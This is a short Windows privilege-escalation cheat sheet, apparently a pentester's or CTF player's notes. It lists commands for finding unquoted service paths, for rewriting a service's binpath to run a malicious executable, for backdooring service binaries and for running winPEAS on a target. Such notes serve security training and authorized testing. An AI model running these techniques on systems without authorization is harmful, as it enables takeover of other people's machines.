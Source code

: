 
##### source : https://www.youtube.com/watch?v=Jb69o19x-8k

#### Methodologies
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation


### Unquoted service path
```
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ # to list service with unquoted path
accesschk.exe /accepteula -dquv "C:\path\to\folder\" # check permissions

# more info at https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#unquoted-service-paths
```

### Insecure service permission
```powershell
accesschk.exe /accepteula -uwcqv #list all service you can edit
# edit servic (in cmd.exe)
sc qc service-name # query service infos
sc config service-name binpath="C:\path\to\malware.exe" # edit a value in the service configuration
net stop service-name # restart a service
net start service-name
```

> accesschk.exe is from the sysinternals suite

## Insecure service executable
If you have write permission on the binary pointed by the binpath of a service configuration, you can just backdoor this executable

## Search for clear password
```powershell
# search the file system for clear password
# then a reminder of the runas command
runas /user:user cmd.exe

# tips : don't forget runasCS : https://github.com/antonioCoco/RunasCs
```

## Check installed application and potential CVE
Location to check for outdated programs:
- C:/Program Files(x86)
- C:/Program Files


### Automated tools 
- winpeas : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

Upload `winPeas.exe` (prefer the `.exe` to the `.bat`) to the target computer, run it and redirect output to `winPeas.txt`
```powershell
PS C:\Users\matthew\Documents> .\winPEASx64.exe > winPeas.txt
```

Then download back the output to your attacker machine, if you are working on a linux, you have to convert endianness before reading it
```
$ file winPeas.txt
winPeas.txt: Unicode text, UTF-16, little-endian text, with very long lines (412), with CRLF line terminators, with escape sequences
$ iconv -f utf-16le -t utf-8 winPeas.txt -o result.txt
$ file result.txt
result.txt: Unicode text, UTF-8 (with BOM) text, with very long lines (412), with CRLF line terminators, with escape sequences
```

Then use `less -r result.txt` to read the file